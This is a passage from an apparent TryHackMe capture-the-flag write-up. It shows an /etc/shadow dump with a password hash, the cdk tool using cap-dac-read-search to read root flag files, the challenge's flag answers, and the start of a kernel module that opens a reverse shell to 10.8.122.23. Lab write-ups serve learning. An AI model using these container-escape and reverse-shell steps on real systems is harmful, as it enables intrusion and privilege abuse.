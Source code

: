 ```shell
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:19050::::::
ubuntu:!$6$D.FhKo2LPP3ETxUs$9.zADQpJc68mIFyIYnCnmvrr4yDhjzWq2aZnVrCfT4A.2NJWHNdb.bXOgujuj2lYbeIbfs058nPPYU8kv9YPN.:19699:0:99999:7:::
lxd:!:19050::::::
kernoops:*:19050:0:99999:7:::
lightdm:*:19050:0:99999:7:::
whoopsie:*:19050:0:99999:7:::
dnsmasq:*:19050:0:99999:7:::
avahi-autoipd:*:19050:0:99999:7:::
usbmux:*:19050:0:99999:7:::
rtkit:*:19050:0:99999:7:::
avahi:*:19050:0:99999:7:::
cups-pk-helper:*:19050:0:99999:7:::
geoclue:*:19050:0:99999:7:::
pulse:*:19050:0:99999:7:::
speech-dispatcher:!:19050:0:99999:7:::
saned:*:19050:0:99999:7:::
nm-openvpn:*:19050:0:99999:7:::
colord:*:19050:0:99999:7:::
hplip:*:19050:0:99999:7:::
gdm:*:19050:0:99999:7:::

/# ./cdk run cap-dac-read-search /root/flag-4-of-4.txt
./cdk run cap-dac-read-search /root/flag-4-of-4.txt
Running with target: /root/flag-4-of-4.txt, ref: /etc/hostname
THM{Frosteau.would.be.both.proud.and.disappointed}

/# ./cdk run cap-dac-read-search /root/yetikey3.txt
./cdk run cap-dac-read-search /root/yetikey3.txt
Running with target: /root/yetikey3.txt, ref: /etc/hostname
3-d2dc6a02db03401177f0511a6c99007e945d9cb9b96b8c6294f8c5a2c8e01f60
```

>What is the value of the fourth flag?
>- [x] THM{Frosteau.would.be.both.proud.and.disappointed}
{: .prompt-info }

>What is the value of the third Yetikey that has been placed in the root directory to verify the compromise?
>- [x] 3-d2dc6a02db03401177f0511a6c99007e945d9cb9b96b8c6294f8c5a2c8e01f60
{: .prompt-info }

With that, we collected all the flags, however, it would have been more fun to escape the container.

To do so, we first need to write a kernel module, which will open a shell for us:

```c
#include <linux/kmod.h>
#include <linux/module.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("nIIk");
MODULE_DESCRIPTION("Docker Escape");
MODULE_VERSION("1337");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.8.122.23/9090 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
        return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
        printk(KERN_INFO "Exiting\n");
```